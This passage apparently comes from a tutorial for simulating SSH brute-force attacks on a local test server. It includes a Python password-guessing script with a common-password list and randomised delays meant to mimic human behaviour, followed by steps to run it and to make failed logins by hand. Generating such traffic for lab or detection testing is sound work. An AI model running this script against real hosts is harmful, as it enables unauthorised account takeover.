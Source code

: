 ```python
        print("Usage: python3 brute_force.py <username> <host>")
        return
    
    user = sys.argv[1]
    host = sys.argv[2]
    port = 2222
    
    passwords = [
        "password123",
        "admin123",
        "123456",
        "qwerty",
        "letmein",
        "password",
        "admin",
        "welcome",
        "p@ssw0rd",
        "test123"
    ]
    
    print(f"[*] Starting brute force attack against {user}@{host}:{port}")
    
    for password in passwords:
        time.sleep(random.uniform(0.5, 2.0))  # Random delay to simulate human behavior
        if ssh_connect(host, port, user, password):
            break

if __name__ == "__main__":
    main()
```

2. Install the required Python package:

```bash
pip install paramiko
```

3. Run the script:

```bash
python3 brute_force.py testuser localhost
```

### Method 3: Manual Testing (for Demonstration)

For demonstration purposes, you can manually attempt multiple failed logins:

```bash
# Attempt 1
ssh testuser@localhost -p 2222 -o StrictHostKeyChecking=no
# Enter incorrect password: wrong1

# Attempt 2
ssh testuser@localhost -p 2222 -o StrictHostKeyChecking=no
# Enter incorrect password: wrong2

# Continue with more attempts...
```
